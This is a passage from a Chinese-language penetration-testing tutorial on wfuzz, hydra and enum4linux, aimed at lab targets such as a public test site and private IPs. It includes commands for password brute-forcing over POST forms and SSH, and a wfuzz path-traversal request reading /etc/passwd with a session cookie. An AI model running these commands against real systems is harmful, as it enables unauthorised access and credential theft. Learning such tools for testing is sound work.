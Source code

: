 **url参数中的fuzz**

```
wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ
```

**模糊POST请求**，比如账号密码爆破，

如果您想模糊一些表单编码的数据（例如HTML表单），只需传递-d命令行参数即可：

```
wfuzz -z file,/usr/share/wfuzz/wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ"  --hc 302 http://testphp
```

cookie请求 -b参数

要将自己的cookie发送到服务器，例如，将请求与HTTP会话相关联，可以使用-b参数（对各种cookie重复）：

```
$ wfuzz -z file,/usr/share/wfuzz/wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ
```

在爆文件名的参数的时候，如果是Linux操作系统，可以尝试把值设为**/etc/passwd**   当该值作为参数传递时，可以加../../../，否则打不开。举例：

`wfuzz -b 'SL_G_WPT_TO=eo; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1; PHPSESSID=3huujdf706d35tq0i36020kb18' -w /usr/share/wfuzz/wordlist/general/common.txt --hw 100 http://172.16.12.161/manage.php?FUZZ=../../../../../etc/passwd`

### **2）bp抓包爆破**

### 3）九头蛇（hydra）协议账号密码爆破

几乎支持所有协议的在线破解；[使用方法](https://blog.csdn.net/weixin_42350212/article/details/116419960?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522166626512816782395382196%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=166626512816782395382196&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-116419960-null-null.142^v59^pc_rank_34_2,201^v3^control_1&utm_term=hydra&spm=1018.2226.3001.4187)

支持破解ftp http https 路由器 http-proxy  smb   Windows远程桌面 邮箱pop3  telnet破解  语音通讯工具teamspeak  cisco......

```undefined
语法：Hydra 参数 IP 服务
```

举例，破解ssh登录账号密码，其中参数详解见使用方法，-L 指定字典，小写-l 直接指定某个username ；-P同理，-t 线程；

`hydra -L user.txt -P password.txt -t 2 -vV -e ns 192.168.154.131 ssh`

### 4）enum4linux枚举工具

**在smb协议存在时可能可以使用** [参考](https://blog.csdn.net/qq_63844103/article/details/127219997?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522166633608316800182710217%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=166633608316800182710217&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-127219997-null-null.142^v59^pc_rank_34_2,201^v3^control_1&utm_term=enum4linux&spm=1018.2226.3001.4187)

SMB是一个协议名，全称是**Server Message Block**（服务器消息快协议），用于在计算机间共享文件、打印机、串口等，电脑上的网上邻居由它实现。一般**共享文件夹**和**打印机**使用较多，smb的默认端口可能是**139**或者**445**，其工作的端口与其使用的协议有关。

